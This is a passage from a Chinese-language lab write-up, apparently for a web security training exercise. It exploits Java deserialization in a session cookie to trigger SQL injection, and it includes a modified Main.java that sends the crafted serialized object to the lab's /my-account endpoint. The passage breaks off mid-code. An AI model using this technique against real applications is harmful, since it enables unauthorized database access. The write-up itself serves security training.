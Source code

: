 ```
javac  data/productcatalog/Product.java
javac  data/productcatalog/ProductTemplate.java
javac  Main.java
```

我们将创建一个 id 值为`'`的序列化对象—单引号。

![](img/493ea5901c1846a824ceab4509585563.png)

将生成的 base64 值粘贴到会话 cookie 中，并观察响应中的错误。我们在响应中得到一个 sql 错误，指出 postgres 是数据库名称。

![](img/e3eb21967a52e71a287130c4a9363944.png)

## 步骤 4

**利用 sql 注入**

我修改了 Main.java，从类本身直接调用 GET /my-account，以避免每次在 cookie 中复制粘贴 burpsuite 中的有效负载，同时我们尝试利用 sql 注入。修改过的 Main.java 文件。

```
import data.productcatalog.ProductTemplate;
import java.io.*;
import java.util.Base64;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.net.URI;class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate(args[0]);String serializedObject = serialize(originalObject);System.out.println("Serialized object: " + serializedObject);ProductTemplate deserializedObject = deserialize(serializedObject);System.out.println("Deserialized object ID: " + deserializedObject.getId());

 ** HttpClient client = HttpClient.newHttpClient();

  HttpRequest request = HttpRequest.newBuilder().uri(URI.create("**[**https://acf01fdc1f53ee6a818f73cf0000005d.web-security-academy.net/my-account**](https://acf01fdc1f53ee6a818f73cf0000005d.web-security-academy.net/my-account)**")).headers("Cookie", "session="+serializedObject).build();

  HttpResponse<String> response = client.send(request, HttpResponse.BodyHandlers.ofString());

  System.out.println("\n Body: " + response.body());**
    }private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
```
